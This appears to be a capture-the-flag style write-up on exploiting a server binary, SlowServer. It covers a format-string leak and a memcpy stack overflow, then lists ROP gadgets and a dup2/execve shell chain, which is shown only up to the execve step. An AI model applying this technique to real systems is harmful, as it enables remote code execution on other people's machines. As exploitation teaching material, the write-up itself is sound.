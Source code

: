 #### The two vulnerabilities that allow for remote code execution exist in handle_debug_request() and handle_post_request(). First handle_debug_request() passes the user input to sprintf() as the format string allowing us to leak data. Second handle_post_request() uses memcpy() to copy our user controlled 0x3ff byte buffer into a 16 byte buffer causing a stack buffer overflow. 

#### Our exploit plan will be:

	- Leak stack and PIE addresses via the format string in handle_debug_request()
	- Use the stack buffer overflow in handle_post_request() to write a ROP chain onto the stack.


#### By leaking a few addresses with the format string we can find a stack address at offset 1 and PIE at offset 3.

![](assets/fmt_leak.jpg)

#### To get our PIE offset we can read the mappings for our process and subtract the PIE base from our leak. To get the offset from our stack leak to our POST buffer we can attach GDB to the SlowServer process, break on the memcpy() call, and examine the registers.

#### Now that we have the required leaks we can find the required gadgets for our exploit. 

#### We use the following gadgets in our exploit:

```
pop rax; ret;
pop rbp; ret;
pop rsi; ret;
pop rdi; xor rdi, rbp; ret;
syscall; ret;
pop rdx; pop r12; ret;
```

#### Since we are communicating with this program over a non standard file descriptor (4) we will need to duplicate stdin and stdout before executing a shell so that we can interact with it. Our ROP chain will be as follows:

```
pop rbp; ret;              # Place 0 in rbp so xor rdi, rbp doesnt effect rdi

# dup2(4, 0)
pop rdi; xor rdi, rbp; ret; # Place 4 in rdi (our file descriptor)
pop rsi; ret;               # Place 0 in rsi (stdin file descriptor)
pop rax; ret;               # Place 33 in rax (syscall for dup2)
syscall; ret;

# dup2(4, 1)
pop rdi; xor rdi, rbp; ret; # Place 4 in rdi (our file descriptor)
pop rsi; ret;               # Place 1 in rsi (stdout file descriptor)
pop rax; ret;               # Place 33 in rax (syscall for dup2)
syscall; ret;

# execve("/binsh", 0, 0)
```